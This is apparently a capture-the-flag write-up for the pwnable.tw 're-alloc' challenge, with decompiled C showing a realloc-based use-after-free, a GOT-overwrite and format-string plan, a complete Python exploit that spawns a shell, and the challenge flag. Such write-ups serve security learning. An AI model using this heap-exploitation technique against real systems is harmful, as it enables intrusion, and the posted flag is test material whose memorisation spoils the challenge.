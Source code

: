 ---
title: '[PWNABLE.TW] - re-alloc'
description: 'Re-alloc the world!'
image: '../../../img/cover_photo_wargame_imresizer.png'
date: 2025-05-15
tags: ['2025', 'Wargame', 'pwnable.tw']
authors: ['kdot']
draft: false
---



## Challenge Information
<Challenge
  category="pwn"
  points={200}
  description="I want to realloc my life :)"
  flag="FLAG{r3all0c_the_memory_r3all0c_the_sh3ll}"
>
</Challenge>

## Reverse Engineering

```sh title="GDB"
alter ^ Sol in /mnt/e/sec/lab/pwnable.tw/re-alloc
$ checksec re-alloc
[*] '/mnt/e/sec/lab/pwnable.tw/re-alloc/re-alloc'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    FORTIFY:    Enabled
    Stripped:   No
```

So as we can see, the binary is not stripped and has a canary. The binary is not PIE, so we can use absolute addresses. Let's dive into the code and analyze it.

<details id="">
<summary>allocate</summary>
<p>

```c
int allocate()
{
  _BYTE *v0; // rax
  unsigned __int64 index; // [rsp+0h] [rbp-20h]
  unsigned __int64 size; // [rsp+8h] [rbp-18h]
  void **v4; // [rsp+18h] [rbp-8h]

  printf("Index:");
  index = read_long();
  if ( index > 1 || (&heap)[index] )
  {
    LODWORD(v0) = puts("Invalid !");
  }
  else
  {
    printf("Size:");
    size = read_long();
    if ( size <= 0x78 )
    {
      v4 = (void **)realloc(0LL, size);
      if ( v4 )
      {
        (&heap)[index] = v4;
        printf("Data:");
        v0 = (char *)(&heap)[index] + read_input((__int64)(&heap)[index], (unsigned int)size);
        *v0 = 0;
      }
      else
      {
        LODWORD(v0) = puts("alloc error");
      }
    }
    else
    {
      LODWORD(v0) = puts("Too large!");
    }
  }
  return (int)v0;
}
```

</p>
</details>

<details id="">
<summary>reallocate</summary>
<p>

```c
int reallocate()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-18h]
  unsigned __int64 size; // [rsp+10h] [rbp-10h]
  void **v3; // [rsp+18h] [rbp-8h]

  printf("Index:");
  v1 = read_long();
  if ( v1 > 1 || !(&heap)[v1] )
    return puts("Invalid !");
  printf("Size:");
  size = read_long();
  if ( size > 0x78 )
    return puts("Too large!");
  v3 = (void **)realloc((&heap)[v1], size);
  if ( !v3 )
    return puts("alloc error");
  (&heap)[v1] = v3;
  printf("Data:");
  return read_input((&heap)[v1], (unsigned int)size);
}
```

</p>
</details>

<details id="">
<summary>reallocate</summary>
<p>
```c
int rfree()
{
  void ***p_heap; // rax
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  printf("Index:");
  v2 = read_long();
  if ( v2 > 1 )
  {
    LODWORD(p_heap) = puts("Invalid !");
  }
  else
  {
    realloc((&heap)[v2], 0LL);
    p_heap = &heap;
    (&heap)[v2] = 0LL;
  }
  return (int)p_heap;
}
```
</p>
</details>

There're 3 main functions in the binary: `allocate`, `reallocate`, and `rfree`. The first function allocates memory, the second one reallocates it, and the last one frees it. So, we can see all three functions are using a function called `realloc`, which is a standard C library function that changes the size of the memory block pointed to by a pointer. The `realloc` function takes two arguments: a pointer to the memory block to be resized and the new size in bytes. If the new size is larger than the old size, `realloc` may allocate a new memory block and copy the contents of the old block to the new one. If the new size is smaller, `realloc` may simply reduce the size of the existing block. But there're some special case here:
- When `size` is NULL (or zero), `realloc` will free that chunk
- When `ptr` is NULL, `realloc` will behave like `malloc`

In the case it frees the chunk, it will call `free` on the pointer passed to it. But the problem is it not clear the pointer that lead to `Use-After-Free` here.

## Exploit Strategies

So the binary have `Use-After-Free` bug in `reallocate` function by passing to `realloc` a size equal to zero. This will free the chunk, but the pointer is still pointing to the freed memory.
And becasue there is `Partial RELRO` we can overwrite the GOT entry. So my plan here is:

- Overwrite `atoll` GOT entry with `printf` address
- Do `Format String` attack to leak the libc base address
- Overwrite `atoll` GOT entry with `system` address
- Call `system("/bin/sh")` to get a shell

## Exploit

```py title="exploit.py"
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./re-alloc_patched', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
b *0x4013F1
b *0x40155C
b *0x401632
b *0x40129D
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, aslr=False)

def alloc(idx, size, data):
    slna(b': ', 1)
    slna(b':', idx)
    slna(b':', size)
    sa(b':', data)

def realloc(idx, size, data):
    slna(b': ', 2)
    slna(b':',idx)
    slna(b':', size)
    sa(b':', data)

def realloc_free(idx):
    slna(b': ', 2)
    slna(b':',idx)
    slna(b':', b'0')

def rfree(idx):
    slna(b': ', 3)
    slna(b':', idx)

# ==================== EXPLOIT ====================

# realloc(ptr, 0) --> free(ptr)
# realloc(0, size) --> malloc(size)
# realloc(ptr, size) --> expand/shrink, do nothing if same size

# allocate() - use to allocate memory via realloc
# reallocate() - use to reallocate memory via realloc - lead to UAF if input size is 0
# rfree() - use to free memory via realloc - can be used to reset the index pointer

p = start()

alloc(0, 0x18, b'0')
realloc_free(0)
realloc(0, 0x18, p64(exe.got.atoll))
alloc(1, 0x18, b'1')

# Reset index 1
realloc(1, 0x28, b'1')
rfree(1)

realloc(0, 0x28, p64(exe.got.atoll))
alloc(1, 0x28, b'1')

# Reset index 0, 1
realloc(0, 64, b'0')
rfree(0)
realloc(1, 120, b'1')
rfree(1)

alloc(0, 0x20, p64(exe.plt.printf))

slna(b': ', 1)
sla(b':', b'%6$p')

libc.address = hexleak(rl()[:-1]) - 0x1e5760
success('libc base @ %#x', libc.address)

if args.GDB:
    gdb.attach(p, gdbscript=gdbscript)
    pause()

# printf return total bytes it print
sla(b'choice: ', b'1')
sa(b'Index:', b'A')
sa(b':',  b'A'*0x8 + b'\0')
sa(b':',  p64(libc.sym.system))

sla(b'choice: ', b'1')
s(b'/bin/sh\0')

interactive()
# FLAG{r3all0c_the_memory_r3all0c_the_sh3ll}
```
